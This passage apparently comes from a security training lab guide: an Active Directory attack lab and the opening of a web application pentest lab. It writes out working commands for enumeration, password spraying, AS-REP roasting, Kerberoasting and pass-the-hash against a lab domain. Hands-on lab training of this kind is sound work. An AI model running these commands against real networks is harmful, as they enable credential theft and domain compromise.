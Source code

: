 **Duration**: 120 minutes  
**Objective**: Compromise Active Directory domain  
**Skills**: AD enumeration, Kerberoasting, Pass-the-Hash

```bash
synos-lab start "Active Directory Attack"
```

**Phase 1: Enumeration**

```bash
# Domain enumeration
nmap -p 88,389,445 dc.lab.local

# User enumeration
enum4linux -a dc.lab.local

# BloodHound data collection
bloodhound-python -d lab.local -u user -p password -c all
```

**Phase 2: Initial Access**

```bash
# Password spray
crackmapexec smb dc.lab.local -u users.txt -p 'Winter2024!'

# AS-REP Roasting
GetNPUsers.py lab.local/ -usersfile users.txt -dc-ip 10.10.10.10
```

**Phase 3: Privilege Escalation**

```bash
# Kerberoasting
GetUserSPNs.py -request lab.local/user:password

# Pass-the-Hash
psexec.py -hashes :NTHASH administrator@dc.lab.local
```

---

### 🎯 Lab 12: Web Application Pentest

**Duration**: 120 minutes  
**Objective**: Complete pentest of web application  
**Skills**: OWASP Top 10, manual testing, reporting

```bash
synos-lab start "Web App Pentest"
```

**Methodology**:

1. **Reconnaissance**

    - Directory brute-forcing
    - Technology identification
    - Robots.txt, sitemap

